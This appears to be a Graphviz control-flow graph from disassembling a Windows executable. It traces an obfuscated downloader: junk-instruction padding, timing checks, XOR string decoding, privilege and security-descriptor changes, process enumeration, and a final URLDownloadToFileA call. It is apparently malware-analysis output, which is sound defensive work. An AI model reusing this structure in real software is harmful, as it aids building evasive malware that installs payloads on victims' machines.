a0x00000030addb_al_eax_[label="0x00000030\naddb %al, (%eax)"];
a0x00000032addb_al_eax_[label="0x00000032\naddb %al, (%eax)"];
a0x00000034addb_al_eax_[label="0x00000034\naddb %al, (%eax)"];
a0x00000036addb_al_eax_[label="0x00000036\naddb %al, (%eax)"];
a0x00000038addb_al_eax_[label="0x00000038\naddb %al, (%eax)"];
a0x0000003aaddb_al_eax_[label="0x0000003a\naddb %al, (%eax)"];
a0x0000003caddb_al_eax_[label="0x0000003c\naddb %al, (%eax)"];
a0x0000003eaddb_al_eax_[label="0x0000003e\naddb %al, (%eax)"];
a0x00000040addb_al_eax_[label="0x00000040\naddb %al, (%eax)"];
a0x00000042addb_al_eax_[label="0x00000042\naddb %al, (%eax)"];
a0x00000044addb_al_eax_[label="0x00000044\naddb %al, (%eax)"];
a0x00000046addb_al_eax_[label="0x00000046\naddb %al, (%eax)"];
a0x00000048addb_al_eax_[label="0x00000048\naddb %al, (%eax)"];
a0x0000004aaddb_al_eax_[label="0x0000004a\naddb %al, (%eax)"];
a0x0000004caddb_al_eax_[label="0x0000004c\naddb %al, (%eax)"];
a0x0000004eaddb_al_eax_[label="0x0000004e\naddb %al, (%eax)"];
a0x00000050addb_al_eax_[label="0x00000050\naddb %al, (%eax)"];
a0x00000052addb_al_eax_[label="0x00000052\naddb %al, (%eax)"];
a0x00000054addb_al_eax_[label="0x00000054\naddb %al, (%eax)"];
a0x00000056addb_al_eax_[label="0x00000056\naddb %al, (%eax)"];
a0x00000058addb_al_eax_[label="0x00000058\naddb %al, (%eax)"];
a0x0000005aaddb_al_eax_[label="0x0000005a\naddb %al, (%eax)"];
a0x0000005caddb_al_eax_[label="0x0000005c\naddb %al, (%eax)"];
a0x0000005eaddb_al_eax_[label="0x0000005e\naddb %al, (%eax)"];
a0x00000060addb_al_eax_[label="0x00000060\naddb %al, (%eax)"];
a0x00000062addb_al_eax_[label="0x00000062\naddb %al, (%eax)"];
a0x00000064addb_al_eax_[label="0x00000064\naddb %al, (%eax)"];
a0x00000066addb_al_eax_[label="0x00000066\naddb %al, (%eax)"];
a0x00401324pushl_edi -> a0x00401325xorl_edi_edi [color="#000000"];
a0x00401325xorl_edi_edi -> a0x00401327popl_edi [color="#000000"];
a0x00401327popl_edi -> a0x00401328xchgl_ebx_edx [color="#000000"];
a0x00401328xchgl_ebx_edx -> a0x0040132axchgl_ebx_edx [color="#000000"];
a0x0040132axchgl_ebx_edx -> a0x0040132cpushl_eax [color="#000000"];
a0x0040132cpushl_eax -> a0x0040132dpopl_eax [color="#000000"];
a0x0040132dpopl_eax -> a0x0040132ecall_0x004013c4 [color="#000000"];
a0x0040132ecall_0x004013c4 -> a0x004013c4jmp_GetTickCount_kernel32_dll [color="#000000"];
a0x004013c4jmp_GetTickCount_kernel32_dll -> GetTickCount_kernel32_dll [color="#000000"];
GetTickCount_kernel32_dll -> a0x00401333pushl_eax [color="#000000"];
a0x00401333pushl_eax -> a0x00401334pushl_ecx [color="#000000"];
a0x00401334pushl_ecx -> a0x00401335pushl_edi [color="#000000"];
a0x00401335pushl_edi -> a0x00401336popl_edi [color="#000000"];
a0x00401336popl_edi -> a0x00401337popl_ecx [color="#000000"];
a0x00401337popl_ecx -> a0x00401338popl_ecx [color="#000000"];
a0x00401338popl_ecx -> a0x00401339cmpl_0x17UINT8_ecx [color="#000000"];
a0x00401339cmpl_0x17UINT8_ecx -> a0x0040133cjb_0x00401341 [color="#000000"];
a0x0040133cjb_0x00401341 -> a0x0040133epushl_edi [color="#000000",label="F"];
a0x0040133epushl_edi -> a0x0040133fnop_ [color="#000000"];
a0x0040133fnop_ -> a0x00401340popl_edi [color="#000000"];
a0x00401340popl_edi -> a0x00401341pushl_eax [color="#000000"];
a0x00401341pushl_eax -> a0x00401342nop_ [color="#000000"];
a0x00401342nop_ -> a0x00401343popl_eax [color="#000000"];
a0x00401343popl_eax -> a0x00401344nop_ [color="#000000"];
a0x00401344nop_ -> a0x00401345pushl_eax [color="#000000"];
a0x00401345pushl_eax -> a0x00401346nop_ [color="#000000"];
a0x00401346nop_ -> a0x00401347popl_eax [color="#000000"];
a0x00401347popl_eax -> a0x00401348pushl_esi [color="#000000"];
a0x00401348pushl_esi -> a0x00401349movl_edi_esi [color="#000000"];
a0x00401349movl_edi_esi -> a0x0040134bpopl_esi [color="#000000"];
a0x0040134bpopl_esi -> a0x0040134cpushl_0x40364eUINT32 [color="#000000"];
a0x0040134cpushl_0x40364eUINT32 -> a0x00401351pushl_0x403000UINT32 [color="#000000"];
a0x00401351pushl_0x403000UINT32 -> a0x00401356call_0x004012e9 [color="#000000"];
a0x00401356call_0x004012e9 -> a0x004012e9pushl_ebp [color="#000000"];
a0x004012e9pushl_ebp -> a0x004012eamovl_esp_ebp [color="#000000"];
a0x004012eamovl_esp_ebp -> a0x004012ecpushl_edi [color="#000000"];
a0x004012ecpushl_edi -> a0x004012edxchgl_ecx_ecx [color="#000000"];
a0x004012edxchgl_ecx_ecx -> a0x004012efmovl_0x8ebp__edi [color="#000000"];
a0x004012efmovl_0x8ebp__edi -> a0x004012f2xchgl_edi_ebx [color="#000000"];
a0x004012f2xchgl_edi_ebx -> a0x004012f4nop_ [color="#000000"];
a0x004012f4nop_ -> a0x004012f5xchgl_edi_ebx [color="#000000"];
a0x004012f5xchgl_edi_ebx -> a0x004012f7jmp_0x00401313 [color="#000000"];
a0x004012f7jmp_0x00401313 -> a0x00401313cmpl_0xcebp__edi [color="#000000"];
a0x00401313cmpl_0xcebp__edi -> a0x00401316jne_0x004012f9 [color="#000000"];
a0x00401316jne_0x004012f9 -> a0x004012f9pushl_edi [color="#000000",label="T"];
a0x004012f9pushl_edi -> a0x004012fapushl_ecx [color="#000000"];
a0x004012fapushl_ecx -> a0x004012fbpopl_ecx [color="#000000"];
a0x004012fbpopl_ecx -> a0x004012fcpopl_edi [color="#000000"];
a0x004012fcpopl_edi -> a0x004012fdincl_edi [color="#000000"];
a0x004012fdincl_edi -> a0x004012fepushl_edx [color="#000000"];
a0x004012fepushl_edx -> a0x004012ffnop_ [color="#000000"];
a0x004012ffnop_ -> a0x00401300popl_edx [color="#000000"];
a0x00401300popl_edx -> a0x00401301nop_ [color="#000000"];
a0x00401301nop_ -> a0x00401302xorb_0x11UINT8__1edi_ [color="#000000"];
a0x00401302xorb_0x11UINT8__1edi_ -> a0x00401306pushl_edi [color="#000000"];
a0x00401306pushl_edi -> a0x00401307xchgl_edi_edx [color="#000000"];
a0x00401307xchgl_edi_edx -> a0x00401309xchgl_edi_edx [color="#000000"];
a0x00401309xchgl_edi_edx -> a0x0040130bpopl_edi [color="#000000"];
a0x0040130bpopl_edi -> a0x0040130cnotb__1edi_ [color="#000000"];
a0x0040130cnotb__1edi_ -> a0x0040130fpushl_edx [color="#000000"];
a0x0040130fpushl_edx -> a0x00401310nop_ [color="#000000"];
a0x00401310nop_ -> a0x00401311popl_edx [color="#000000"];
a0x00401311popl_edx -> a0x00401312nop_ [color="#000000"];
a0x00401312nop_ -> a0x00401313cmpl_0xcebp__edi [color="#000000"];
a0x00401316jne_0x004012f9 -> a0x00401318pushl_ebx [color="#000000",label="F"];
a0x00401318pushl_ebx -> a0x00401319pushl_esi [color="#000000"];
a0x00401319pushl_esi -> a0x0040131apopl_esi [color="#000000"];
a0x0040131apopl_esi -> a0x0040131bpopl_ebx [color="#000000"];
a0x0040131bpopl_ebx -> a0x0040131cpopl_edi [color="#000000"];
a0x0040131cpopl_edi -> a0x0040131dleave_ [color="#000000"];
a0x0040131dleave_ -> a0x0040131eret_0x8UINT16 [color="#000000"];
a0x0040131eret_0x8UINT16 -> a0x0040135bnop_ [color="#000000"];
a0x0040135bnop_ -> a0x0040135cpushl_edx [color="#000000"];
a0x0040135cpushl_edx -> a0x0040135dmovl_edx_edx [color="#000000"];
a0x0040135dmovl_edx_edx -> a0x0040135fpopl_edx [color="#000000"];
a0x0040135fpopl_edx -> a0x00401360pushl_0x4012e3UINT32 [color="#000000"];
a0x00401360pushl_0x4012e3UINT32 -> a0x00401365pushl_0x401000UINT32 [color="#000000"];
a0x00401365pushl_0x401000UINT32 -> a0x0040136acall_0x004012e9 [color="#000000"];
a0x0040136acall_0x004012e9 -> a0x004012e9pushl_ebp [color="#000000"];
a0x0040131eret_0x8UINT16 -> a0x0040136fpushl_eax [color="#000000"];
a0x0040136fpushl_eax -> a0x00401370nop_ [color="#000000"];
a0x00401370nop_ -> a0x00401371popl_eax [color="#000000"];
a0x00401371popl_eax -> a0x00401372nop_ [color="#000000"];
a0x00401372nop_ -> a0x00401373nop_ [color="#000000"];
a0x00401373nop_ -> a0x00401374pushl_ebx [color="#000000"];
a0x00401374pushl_ebx -> a0x00401375xchgl_ebx_edx [color="#000000"];
a0x00401375xchgl_ebx_edx -> a0x00401377xchgl_ebx_edx [color="#000000"];
a0x00401377xchgl_ebx_edx -> a0x00401379popl_ebx [color="#000000"];
a0x00401379popl_ebx -> a0x0040137aaddl_0x33013UINT32_0x0040138b [color="#000000"];
a0x0040137aaddl_0x33013UINT32_0x0040138b -> a0x00401384pushl_eax [color="#000000"];
a0x00401384pushl_eax -> a0x00401385nop_ [color="#000000"];
a0x00401385nop_ -> a0x00401386popl_eax [color="#000000"];
a0x00401386popl_eax -> a0x00401387pushl_ebx [color="#000000"];
a0x00401387pushl_ebx -> a0x00401388nop_ [color="#000000"];
a0x00401388nop_ -> a0x00401389popl_ebx [color="#000000"];
a0x00401389popl_ebx -> a0x0040138ajmp_0x0040120d [color="#000000"];
a0x0040138ajmp_0x0040120d -> a0x0040120dxchgl_edx_edx [color="#000000"];
a0x0040120dxchgl_edx_edx -> a0x0040120fxorl_eax_eax [color="#000000"];
a0x0040120fxorl_eax_eax -> a0x00401211call_0x004013c4 [color="#000000"];
a0x00401211call_0x004013c4 -> a0x004013c4jmp_GetTickCount_kernel32_dll [color="#000000"];
GetTickCount_kernel32_dll -> a0x00401216cmpl_0x3bUINT8_eax [color="#000000"];
a0x00401216cmpl_0x3bUINT8_eax -> a0x00401219jb_0x00401224 [color="#000000"];
a0x00401219jb_0x00401224 -> a0x0040121bnop_ [color="#000000",label="F"];
a0x0040121bnop_ -> a0x0040121cmovb_0x55UINT8_0x0040310f [color="#000000"];
a0x0040121cmovb_0x55UINT8_0x0040310f -> a0x00401223nop_ [color="#000000"];
a0x00401223nop_ -> a0x00401224call_0x00401066 [color="#000000"];
a0x00401224call_0x00401066 -> a0x00401066pushl_ebp [color="#000000"];
a0x00401066pushl_ebp -> a0x00401067movl_esp_ebp [color="#000000"];
a0x00401067movl_esp_ebp -> a0x00401069addl_0xffffffd8UINT8_esp [color="#000000"];
a0x00401069addl_0xffffffd8UINT8_esp -> a0x0040106cpushl_esi [color="#000000"];
a0x0040106cpushl_esi -> a0x0040106dpushl_edi [color="#000000"];
a0x0040106dpushl_edi -> a0x0040106epushl_0x4030abUINT32 [color="#000000"];
a0x0040106epushl_0x4030abUINT32 -> a0x00401073pushl_0x403015UINT32 [color="#000000"];
a0x00401073pushl_0x403015UINT32 -> a0x00401078call_0x00401004 [color="#000000"];
a0x00401078call_0x00401004 -> a0x00401004pushl_ebp [color="#000000"];
a0x00401004pushl_ebp -> a0x00401005movl_esp_ebp [color="#000000"];
a0x00401005movl_esp_ebp -> a0x00401007pushl_0x8ebp_ [color="#000000"];
a0x00401007pushl_0x8ebp_ -> a0x0040100acall_0x004013ca [color="#000000"];
a0x0040100acall_0x004013ca -> a0x004013cajmp_LoadLibraryA_kernel32_dll [color="#000000"];
a0x004013cajmp_LoadLibraryA_kernel32_dll -> LoadLibraryA_kernel32_dll [color="#000000"];
LoadLibraryA_kernel32_dll -> a0x0040100ftestl_eax_eax [color="#000000"];
a0x0040100ftestl_eax_eax -> a0x00401011je_0x00401043 [color="#000000"];
a0x00401011je_0x00401043 -> a0x00401013movl_eax_ebx [color="#000000",label="F"];
a0x00401013movl_eax_ebx -> a0x00401015movl_0x8ebp__edi [color="#000000"];
a0x00401015movl_0x8ebp__edi -> a0x00401018movl_0xcebp__esi [color="#000000"];
a0x00401018movl_0xcebp__esi -> a0x0040101bcld_ [color="#000000"];
a0x0040101bcld_ -> a0x0040101cxorl_eax_eax [color="#000000"];
a0x0040101cxorl_eax_eax -> a0x0040101eorl_0xffffffffUINT8_ecx [color="#000000"];
a0x0040101eorl_0xffffffffUINT8_ecx -> a0x00401021repnz_scasb_es_edi__al [color="#000000"];
a0x00401021repnz_scasb_es_edi__al -> a0x00401023cmpb_0x0UINT8_edi_ [color="#000000"];
a0x00401023cmpb_0x0UINT8_edi_ -> a0x00401026je_0x0040103e [color="#000000"];
a0x00401026je_0x0040103e -> a0x00401028pushl_edi [color="#000000",label="F"];
a0x00401028pushl_edi -> a0x00401029pushl_ebx [color="#000000"];
a0x00401029pushl_ebx -> a0x0040102acall_0x004013be [color="#000000"];
a0x0040102acall_0x004013be -> a0x004013bejmp_GetProcAddress_kernel32_dll [color="#000000"];
a0x004013bejmp_GetProcAddress_kernel32_dll -> GetProcAddress_kernel32_dll [color="#000000"];
GetProcAddress_kernel32_dll -> a0x0040102forl_eax_eax [color="#000000"];
a0x0040102forl_eax_eax -> a0x00401031jne_0x00401037 [color="#000000"];
a0x00401031jne_0x00401037 -> a0x00401037movl_eax_esi_ [color="#000000",label="T"];
a0x00401037movl_eax_esi_ -> a0x00401039addl_0x4UINT8_esi [color="#000000"];
a0x00401039addl_0x4UINT8_esi -> a0x0040103cjmp_0x0040101b [color="#000000"];
a0x0040103cjmp_0x0040101b -> a0x0040101bcld_ [color="#000000"];
a0x00401026je_0x0040103e -> a0x0040103emovl_0x1UINT32_eax [color="#000000",label="T"];
a0x0040103emovl_0x1UINT32_eax -> a0x00401043leave_ [color="#000000"];
a0x00401043leave_ -> a0x00401044ret_0x8UINT16 [color="#000000"];
a0x00401044ret_0x8UINT16 -> a0x0040107dpushl_0x4030bfUINT32 [color="#000000"];
a0x0040107dpushl_0x4030bfUINT32 -> a0x00401082pushl_0x40307eUINT32 [color="#000000"];
a0x00401082pushl_0x40307eUINT32 -> a0x00401087call_0x00401004 [color="#000000"];
a0x00401087call_0x00401004 -> a0x00401004pushl_ebp [color="#000000"];
a0x00401031jne_0x00401037 -> a0x00401033leave_ [color="#000000",label="F"];
a0x00401033leave_ -> a0x00401034ret_0x8UINT16 [color="#000000"];
a0x00401034ret_0x8UINT16 -> a0x0040108ccmpl_0x0UINT8_0x004030c3 [color="#000000"];
a0x0040108ccmpl_0x0UINT8_0x004030c3 -> a0x00401093je_0x004010a3 [color="#000000"];
a0x00401093je_0x004010a3 -> a0x004010a3cmpl_0x0UINT8_0x004030ab [color="#000000",label="T"];
a0x004010a3cmpl_0x0UINT8_0x004030ab -> a0x004010aaje_0x004010d0 [color="#000000"];
a0x004010aaje_0x004010d0 -> a0x004010accmpl_0x0UINT8_0x004030af [color="#000000",label="F"];
a0x004010accmpl_0x0UINT8_0x004030af -> a0x004010b3je_0x004010d0 [color="#000000"];
a0x004010b3je_0x004010d0 -> a0x004010b5cmpl_0x0UINT8_0x004030b3 [color="#000000",label="F"];
a0x004010b5cmpl_0x0UINT8_0x004030b3 -> a0x004010bcje_0x004010d0 [color="#000000"];
a0x004010bcje_0x004010d0 -> a0x004010becmpl_0x0UINT8_0x004030b7 [color="#000000",label="F"];
a0x004010becmpl_0x0UINT8_0x004030b7 -> a0x004010c5je_0x004010d0 [color="#000000"];
a0x004010c5je_0x004010d0 -> a0x004010c7cmpl_0x0UINT8_0x004030bb [color="#000000",label="F"];
a0x004010c7cmpl_0x0UINT8_0x004030bb -> a0x004010cejne_0x004010d4 [color="#000000"];
a0x004010cejne_0x004010d4 -> a0x004010d4pushl_0x8UINT8 [color="#000000",label="T"];
a0x004010d4pushl_0x8UINT8 -> a0x004010d6leal__40ebp__eax [color="#000000"];
a0x004010d6leal__40ebp__eax -> a0x004010d9pushl_eax [color="#000000"];
a0x004010d9pushl_eax -> a0x004010dacall_0x00401047 [color="#000000"];
a0x004010dacall_0x00401047 -> a0x00401047pushl_ebp [color="#000000"];
a0x00401047pushl_ebp -> a0x00401048movl_esp_ebp [color="#000000"];
a0x00401048movl_esp_ebp -> a0x0040104apushl_edi [color="#000000"];
a0x0040104apushl_edi -> a0x0040104bcld_ [color="#000000"];
a0x0040104bcld_ -> a0x0040104cmovl_0x8ebp__edi [color="#000000"];
a0x0040104cmovl_0x8ebp__edi -> a0x0040104fmovl_0xcebp__ecx [color="#000000"];
a0x0040104fmovl_0xcebp__ecx -> a0x00401052shrl_0x2UINT8_ecx [color="#000000"];
a0x00401052shrl_0x2UINT8_ecx -> a0x00401055xorl_eax_eax [color="#000000"];
a0x00401055xorl_eax_eax -> a0x00401057repz_stosl_eax_es_edi_ [color="#000000"];
a0x00401057repz_stosl_eax_es_edi_ -> a0x00401059movl_0xcebp__ecx [color="#000000"];
a0x00401059movl_0xcebp__ecx -> a0x0040105candl_0x3UINT8_ecx [color="#000000"];
a0x0040105candl_0x3UINT8_ecx -> a0x0040105frepz_stosb_al_es_edi_ [color="#000000"];
a0x0040105frepz_stosb_al_es_edi_ -> a0x00401061popl_edi [color="#000000"];
a0x00401061popl_edi -> a0x00401062leave_ [color="#000000"];
a0x00401062leave_ -> a0x00401063ret_0x8UINT16 [color="#000000"];
a0x00401063ret_0x8UINT16 -> a0x004010dfpushl_0x2UINT8 [color="#000000"];
a0x004010dfpushl_0x2UINT8 -> a0x004010e1pushl_0x8UINT8 [color="#000000"];
a0x004010e1pushl_0x8UINT8 -> a0x004010e3leal__40ebp__eax [color="#000000"];
a0x004010e3leal__40ebp__eax -> a0x004010e6pushl_eax [color="#000000"];
a0x004010e6pushl_eax -> a0x004010e7call_0x004030af [color="#000000"];
a0x004010e7call_0x004030af -> InitializeAcl_advapi32_dll [color="#000000"];
InitializeAcl_advapi32_dll -> a0x004010edcall_0x004013b2 [color="#000000"];
a0x004010edcall_0x004013b2 -> a0x004013b2jmp_GetCurrentProcess_kernel32_dll [color="#000000"];
a0x004013b2jmp_GetCurrentProcess_kernel32_dll -> GetCurrentProcess_kernel32_dll [color="#000000"];
GetCurrentProcess_kernel32_dll -> a0x004010f2pushl_eax [color="#000000"];
a0x004010f2pushl_eax -> a0x004010f3xchgl_eax_edx [color="#000000"];
a0x004010f3xchgl_eax_edx -> a0x004010f4pushl_0x0UINT8 [color="#000000"];
a0x004010f4pushl_0x0UINT8 -> a0x004010f6leal__40ebp__eax [color="#000000"];
a0x004010f6leal__40ebp__eax -> a0x004010f9pushl_eax [color="#000000"];
a0x004010f9pushl_eax -> a0x004010fapushl_0x0UINT8 [color="#000000"];
a0x004010fapushl_0x0UINT8 -> a0x004010fcpushl_0x0UINT8 [color="#000000"];
a0x004010fcpushl_0x0UINT8 -> a0x004010fepushl_0x4UINT8 [color="#000000"];
a0x004010fepushl_0x4UINT8 -> a0x00401100pushl_0x6UINT8 [color="#000000"];
a0x00401100pushl_0x6UINT8 -> a0x00401102pushl_edx [color="#000000"];
a0x00401102pushl_edx -> a0x00401103call_0x004030bb [color="#000000"];
a0x00401103call_0x004030bb -> SetSecurityInfo_advapi32_dll [color="#000000"];
SetSecurityInfo_advapi32_dll -> a0x00401109popl_edx [color="#000000"];
a0x00401109popl_edx -> a0x0040110aleal__4ebp__eax [color="#000000"];
a0x0040110aleal__4ebp__eax -> a0x0040110dpushl_eax [color="#000000"];
a0x0040110dpushl_eax -> a0x0040110epushl_0x28UINT8 [color="#000000"];
a0x0040110epushl_0x28UINT8 -> a0x00401110pushl_edx [color="#000000"];
a0x00401110pushl_edx -> a0x00401111call_0x004030b7 [color="#000000"];
a0x00401111call_0x004030b7 -> OpenProcessToken_advapi32_dll [color="#000000"];
OpenProcessToken_advapi32_dll -> a0x00401117leal__12ebp__eax [color="#000000"];
a0x00401117leal__12ebp__eax -> a0x0040111apushl_eax [color="#000000"];
a0x0040111apushl_eax -> a0x0040111bpushl_0x403004UINT32 [color="#000000"];
a0x0040111bpushl_0x403004UINT32 -> a0x00401120pushl_0x0UINT8 [color="#000000"];
a0x00401120pushl_0x0UINT8 -> a0x00401122call_0x004030b3 [color="#000000"];
a0x00401122call_0x004030b3 -> LookupPrivilegeValueA_advapi32_dll [color="#000000"];
LookupPrivilegeValueA_advapi32_dll -> a0x00401128leal__12ebp__esi [color="#000000"];
a0x00401128leal__12ebp__esi -> a0x0040112bleal__24ebp__edi [color="#000000"];
a0x0040112bleal__24ebp__edi -> a0x0040112emovl_0x8UINT32_ecx [color="#000000"];
a0x0040112emovl_0x8UINT32_ecx -> a0x00401133repz_movsb_ds_esi__es_edi_ [color="#000000"];
a0x00401133repz_movsb_ds_esi__es_edi_ -> a0x00401135movl_0x1UINT32__28ebp_ [color="#000000"];
a0x00401135movl_0x1UINT32__28ebp_ -> a0x0040113cmovl_0x2UINT32__16ebp_ [color="#000000"];
a0x0040113cmovl_0x2UINT32__16ebp_ -> a0x00401143leal__32ebp__eax [color="#000000"];
a0x00401143leal__32ebp__eax -> a0x00401146pushl_eax [color="#000000"];
a0x00401146pushl_eax -> a0x00401147leal__28ebp__eax [color="#000000"];
a0x00401147leal__28ebp__eax -> a0x0040114apushl_eax [color="#000000"];
a0x0040114apushl_eax -> a0x0040114bpushl_0x10UINT8 [color="#000000"];
a0x0040114bpushl_0x10UINT8 -> a0x0040114dpushl_eax [color="#000000"];
a0x0040114dpushl_eax -> a0x0040114epushl_0x0UINT8 [color="#000000"];
a0x0040114epushl_0x0UINT8 -> a0x00401150pushl__4ebp_ [color="#000000"];
a0x00401150pushl__4ebp_ -> a0x00401153call_0x004030ab [color="#000000"];
a0x00401153call_0x004030ab -> AdjustTokenPrivileges_advapi32_dll [color="#000000"];
AdjustTokenPrivileges_advapi32_dll -> a0x00401159popl_edi [color="#000000"];
a0x00401159popl_edi -> a0x0040115apopl_esi [color="#000000"];
a0x0040115apopl_esi -> a0x0040115bleave_ [color="#000000"];
a0x0040115bleave_ -> a0x0040115cret [color="#000000"];
a0x0040115cret -> a0x00401229call_0x00401182 [color="#000000"];
a0x00401229call_0x00401182 -> a0x00401182pushl_ebp [color="#000000"];
a0x00401182pushl_ebp -> a0x00401183movl_esp_ebp [color="#000000"];
a0x00401183movl_esp_ebp -> a0x00401185addl_0xfffffed4UINT32_esp [color="#000000"];
a0x00401185addl_0xfffffed4UINT32_esp -> a0x0040118bpushl_edi [color="#000000"];
a0x0040118bpushl_edi -> a0x0040118cmovl_0x128UINT32__296ebp_ [color="#000000"];
a0x0040118cmovl_0x128UINT32__296ebp_ -> a0x00401196pushl_0x0UINT8 [color="#000000"];
a0x00401196pushl_0x0UINT8 -> a0x00401198pushl_0x2UINT8 [color="#000000"];
a0x00401198pushl_0x2UINT8 -> a0x0040119acall_0x004013a0 [color="#000000"];
a0x0040119acall_0x004013a0 -> a0x004013a0jmp_CreateToolhelp32Snapshot_kernel32_dll [color="#000000"];
a0x004013a0jmp_CreateToolhelp32Snapshot_kernel32_dll -> CreateToolhelp32Snapshot_kernel32_dll [color="#000000"];
CreateToolhelp32Snapshot_kernel32_dll -> a0x0040119fmovl_eax__300ebp_ [color="#000000"];
a0x0040119fmovl_eax__300ebp_ -> a0x004011a5leal__296ebp__eax [color="#000000"];
a0x004011a5leal__296ebp__eax -> a0x004011abpushl_eax [color="#000000"];
a0x004011abpushl_eax -> a0x004011acpushl__300ebp_ [color="#000000"];
a0x004011acpushl__300ebp_ -> a0x004011b2call_0x004013d6 [color="#000000"];
a0x004011b2call_0x004013d6 -> a0x004013d6jmp_Process32First_kernel32_dll [color="#000000"];
a0x004013d6jmp_Process32First_kernel32_dll -> Process32First_kernel32_dll [color="#000000"];
Process32First_kernel32_dll -> a0x004011b7orl_eax_eax [color="#000000"];
a0x004011b7orl_eax_eax -> a0x004011b9je_0x004011fd [color="#000000"];
a0x004011b9je_0x004011fd -> a0x004011bbmovl_0x403208UINT32_edi [color="#000000",label="F"];
a0x004011bbmovl_0x403208UINT32_edi -> a0x004011c0pushl_edi [color="#000000"];
a0x004011c0pushl_edi -> a0x004011c1leal__260ebp__eax [color="#000000"];
a0x004011c1leal__260ebp__eax -> a0x004011c7pushl_eax [color="#000000"];
a0x004011c7pushl_eax -> a0x004011c8call_0x004013ee [color="#000000"];
a0x004011c8call_0x004013ee -> a0x004013eejmp_lstrcmpiA_kernel32_dll [color="#000000"];
a0x004013eejmp_lstrcmpiA_kernel32_dll -> lstrcmpiA_kernel32_dll [color="#000000"];
lstrcmpiA_kernel32_dll -> a0x004011cdorl_eax_eax [color="#000000"];
a0x004011cdorl_eax_eax -> a0x004011cfjne_0x004011dc [color="#000000"];
a0x004011cfjne_0x004011dc -> a0x004011dccld_ [color="#000000",label="T"];
a0x004011dccld_ -> a0x004011ddxorl_eax_eax [color="#000000"];
a0x004011ddxorl_eax_eax -> a0x004011dforl_0xffffffffUINT8_ecx [color="#000000"];
a0x004011dforl_0xffffffffUINT8_ecx -> a0x004011e2repnz_scasb_es_edi__al [color="#000000"];
a0x004011e2repnz_scasb_es_edi__al -> a0x004011e4cmpb_0x0UINT8_edi_ [color="#000000"];
a0x004011e4cmpb_0x0UINT8_edi_ -> a0x004011e7jne_0x004011c0 [color="#000000"];
a0x004011e7jne_0x004011c0 -> a0x004011c0pushl_edi [color="#000000",label="T"];
a0x004011e7jne_0x004011c0 -> a0x004011e9leal__296ebp__eax [color="#000000",label="F"];
a0x004011e9leal__296ebp__eax -> a0x004011efpushl_eax [color="#000000"];
a0x004011efpushl_eax -> a0x004011f0pushl__300ebp_ [color="#000000"];
a0x004011f0pushl__300ebp_ -> a0x004011f6call_0x004013dc [color="#000000"];
a0x004011f6call_0x004013dc -> a0x004013dcjmp_Process32Next_kernel32_dll [color="#000000"];
a0x004013dcjmp_Process32Next_kernel32_dll -> Process32Next_kernel32_dll [color="#000000"];
Process32Next_kernel32_dll -> a0x004011fbjmp_0x004011b7 [color="#000000"];
a0x004011fbjmp_0x004011b7 -> a0x004011b7orl_eax_eax [color="#000000"];
a0x004011b9je_0x004011fd -> a0x004011fdpushl__300ebp_ [color="#000000",label="T"];
a0x004011fdpushl__300ebp_ -> a0x00401203call_0x0040139a [color="#000000"];
a0x00401203call_0x0040139a -> a0x0040139ajmp_CloseHandle_kernel32_dll [color="#000000"];
a0x0040139ajmp_CloseHandle_kernel32_dll -> CloseHandle_kernel32_dll [color="#000000"];
CloseHandle_kernel32_dll -> a0x00401208xorl_eax_eax [color="#000000"];
a0x00401208xorl_eax_eax -> a0x0040120apopl_edi [color="#000000"];
a0x0040120apopl_edi -> a0x0040120bleave_ [color="#000000"];
a0x0040120bleave_ -> a0x0040120cret [color="#000000"];
a0x0040120cret -> a0x0040122emovl_0x00403668_eax [color="#000000"];
a0x0040122emovl_0x00403668_eax -> a0x00401233pushl_0x4030f3UINT32 [color="#000000"];
a0x00401233pushl_0x4030f3UINT32 -> a0x00401238call_0x004013ca [color="#000000"];
a0x00401238call_0x004013ca -> a0x004013cajmp_LoadLibraryA_kernel32_dll [color="#000000"];
LoadLibraryA_kernel32_dll -> a0x0040123dorl_eax_eax [color="#000000"];
a0x0040123dorl_eax_eax -> a0x0040123fje_0x0040129a [color="#000000"];
a0x0040123fje_0x0040129a -> a0x00401241pushl_0x40310fUINT32 [color="#000000",label="F"];
a0x00401241pushl_0x40310fUINT32 -> a0x00401246pushl_eax [color="#000000"];
a0x00401246pushl_eax -> a0x00401247call_0x004013be [color="#000000"];
a0x00401247call_0x004013be -> a0x004013bejmp_GetProcAddress_kernel32_dll [color="#000000"];
GetProcAddress_kernel32_dll -> a0x0040124corl_eax_eax [color="#000000"];
a0x0040124corl_eax_eax -> a0x0040124eje_0x0040129a [color="#000000"];
a0x0040124eje_0x0040129a -> a0x00401250movl_eax_0x00403664 [color="#000000",label="F"];
a0x00401250movl_eax_0x00403664 -> a0x00401255movl_0x4031c3UINT32_eax [color="#000000"];
a0x00401255movl_0x4031c3UINT32_eax -> a0x0040125amovl_0x4031f6UINT32_ebx [color="#000000"];
a0x0040125amovl_0x4031f6UINT32_ebx -> a0x0040125fmovl_0x1UINT32_ecx [color="#000000"];
a0x0040125fmovl_0x1UINT32_ecx -> a0x00401264movb_0x31UINT8_0x004031f4 [color="#000000"];
a0x00401264movb_0x31UINT8_0x004031f4 -> a0x0040126bmovb_0x31UINT8_0x00403202 [color="#000000"];
a0x0040126bmovb_0x31UINT8_0x00403202 -> a0x00401272call_0x004012a8 [color="#000000"];
a0x00401272call_0x004012a8 -> a0x004012a8pushl_ebx [color="#000000"];
a0x004012a8pushl_ebx -> a0x004012a9pushl_eax [color="#000000"];
a0x004012a9pushl_eax -> a0x004012aapushl_ecx [color="#000000"];
a0x004012aapushl_ecx -> a0x004012abxchgl_ecx_ecx [color="#000000"];
a0x004012abxchgl_ecx_ecx -> a0x004012adxchgl_ebx_ebx [color="#000000"];
a0x004012adxchgl_ebx_ebx -> a0x004012afpushl_0x0UINT8 [color="#000000"];
a0x004012afpushl_0x0UINT8 -> a0x004012b1pushl_0x0UINT8 [color="#000000"];
a0x004012b1pushl_0x0UINT8 -> a0x004012b3pushl_ebx [color="#000000"];
a0x004012b3pushl_ebx -> a0x004012b4pushl_eax [color="#000000"];
a0x004012b4pushl_eax -> a0x004012b5pushl_0x0UINT8 [color="#000000"];
a0x004012b5pushl_0x0UINT8 -> a0x004012b7call_0x00403664 [color="#000000"];
a0x004012b7call_0x00403664 -> URLDownloadToFileA_urlmon_dll [color="#000000"];
URLDownloadToFileA_urlmon_dll -> a0x004012bdnop_ [color="#000000"];
a0x004012bdnop_ -> a0x004012benop_ [color="#000000"];
a0x004012benop_ -> a0x004012bfnop_ [color="#000000"];
